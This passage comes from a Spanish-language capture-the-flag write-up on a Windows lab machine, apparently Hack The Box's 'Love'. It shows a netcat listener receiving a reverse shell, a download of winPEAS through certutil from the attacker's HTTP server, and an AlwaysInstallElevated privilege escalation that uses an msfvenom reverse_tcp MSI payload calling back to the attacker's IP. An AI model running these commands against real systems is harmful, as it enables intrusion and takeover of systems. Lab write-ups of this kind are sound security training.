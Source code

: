 ```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.239] 58604
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

whoami
whoami
love\phoebe

C:\xampp\htdocs\omrs\images>
```

A partir de aquí ya podemos visualizar la flag (user.txt) y empezamos la enumeración para escalar privilegios en el sistema. Nos dirigimos al *C:\\Windows\\Temp* y nos creamos una carpeta (con cualquier nombre, para este caso la carpeta de llama *Privesc*). Ingresamos a la carpeta *Privesc*, en nuestra máquina de atacantes descargamos la utilidad **winPEAS** y nos compartimos un servidor HTTP a través del puerto 80 mediante el uso de python.

[**winPEASx64.exe**](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe)

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Ahora desde la máquina víctima, descargamos el archivo winPEASx64.exe alojado en nuestro equipo con la utilizada **certutil.exe** y procedemos a ejecutar el archivo.

```bash
certutil.exe -f -urlcache -split http://10.10.14.5/winPEASx64.exe winPEASx64.exe
****  Online  ****
  000000  ...
  1b4600
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp\Privesc>
```

De toda la información arrojada por la aplicación, se observa que AlwaysInstallElevated presenta un valor de 1 en HKLM y HKCU; por lo que podemos instalar un paquete de Windows Installer (archivos msi) con privilegios elevador. Por lo tanto, generamos una reverse shell con la herramienta `msfvenom` ; incluso, dentro de los resultados de **winPEAS** nos comparte una liga hacia el sitio *hacktricks.xyz* en donde nos indican que es lo que tenemos que hacer para elevar privilegios.

```bash
Checking AlwaysInstallElevated
  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

```bash
❯ msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.10.14.5 LPORT=443 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```
